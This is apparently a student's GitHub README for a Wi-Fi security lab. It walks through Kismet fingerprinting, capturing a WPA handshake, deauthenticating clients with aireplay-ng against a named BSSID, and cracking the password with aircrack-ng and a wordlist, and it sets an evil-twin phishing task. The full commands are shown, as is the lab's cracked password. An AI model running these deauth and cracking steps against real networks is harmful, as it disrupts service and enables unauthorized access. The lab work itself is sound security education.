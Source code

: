 # CyberSecurity_lab

1. Learn the basic working of Wi-Fi and its types with various types of attacks on it.


2. Perform Wi-Fi fingerprinting using Wigile, Inssider, and Kismet.

#### Kismet -

Put Your Wireless Card in Monitor Mode

 - `sudo airmon-ng start wlan0`

![image](https://user-images.githubusercontent.com/67383098/230551170-37f0d414-dd18-4c86-b728-5cfbacc2f2d3.png)

Launch Kismet

![image](https://user-images.githubusercontent.com/67383098/230552556-1d7bd6a6-bc11-4152-9989-001327bbfb93.png)


kismet -c wlanomon



![image](https://user-images.githubusercontent.com/67383098/230552480-bdc61d8a-b846-4b13-a472-d352e2c0d806.png)


![image](https://user-images.githubusercontent.com/67383098/230552332-32a6be07-3554-4bff-9661-17fe92d3b727.png)


3. Create an Access point with any Wi-Fi encryption standard and start testing the security of
that connection using any Wi-Fi security testing tools, which should include (Aircrack-Ng,
Wifite, not limited). Try to capture the 4-way handshake using these methods.

![image](https://user-images.githubusercontent.com/67383098/230554024-50eefd46-08d0-4e50-a525-dd92dec5881a.png)

airodump-ng wlan0

![image](https://user-images.githubusercontent.com/67383098/230555155-dc581e48-5db2-4a9d-b319-0dd5f2197e66.png)

Focus Airodump-Ng on One AP on One Channel

airodump-ng --bssid EA:B0:24:9F:4A:50  -c 5 --write WPAcrack wlan0

![image](https://user-images.githubusercontent.com/67383098/230556046-cc586b48-b820-4505-9169-646d9a28cff4.png)

Aireplay-Ng Deauth

aireplay-ng --deauth 100 -a EA:B0:24:9F:4A:50 wlan0

![image](https://user-images.githubusercontent.com/67383098/230556612-09f1a09a-3aa7-49f5-ad7f-7ad0435c226a.png)

![image](https://user-images.githubusercontent.com/67383098/230556884-b437c7ae-6f60-4174-be73-a34409ed85ec.png)




4. After capturing the required files for testing, use dictionary generation and password
cracking tools to crack the Wi-Fi password.
a. You must use an existing word file to crack the password.
b. Also you have to create your dictionary file for cracking the passwords.
c. Keep 3 different types of passwords for your Wi-Fi to test it. Simple, medium, and
complex passwords can be used for testing. Simple can be a dictionary word,
medium can be of dictionary word with some numbers, and complex can be
generated from any password generator online.

Password is `c6dp6m2k`

![image](https://user-images.githubusercontent.com/67383098/230557921-fe84d8c4-95d1-48c9-b34d-eb4152d05847.png)

aircrack-ng WPAcrack-03.cap  -w /usr/share/wordlists/rockyou.txt


When we use a weak password, we can crack it using aircrack-ng

aircrack-ng testt.cap -w /usr/share/wordlists/rockyou.txt

![image](https://user-images.githubusercontent.com/67383098/230582697-1c10599d-ef77-4013-b14d-f184c284929d.png)



5. Use Rouge AP (WifiPhisher) to create an Evil twin, perform a basic phishing attack using this
rouge AP, and document the difference between the two attacks you have performed.


6. Learn the protocol level working of WPA3 and how it differs from WPA2.





Reference Links: [Not Limited]
1. https://github.com/wifiphisher/wifiphisher
2. https://web.stanford.edu/class/ee26n/Assignments/Assignment7.html
3. https://www.wifi-professionals.com/2019/01/4-way-handshake
4. https://nooblinux.com/crack-wpa-wpa2-wifi-passwords-using-aircrack-ng-kali-linux/
5. https://en.wikipedia.org/wiki/IEEE_802.11
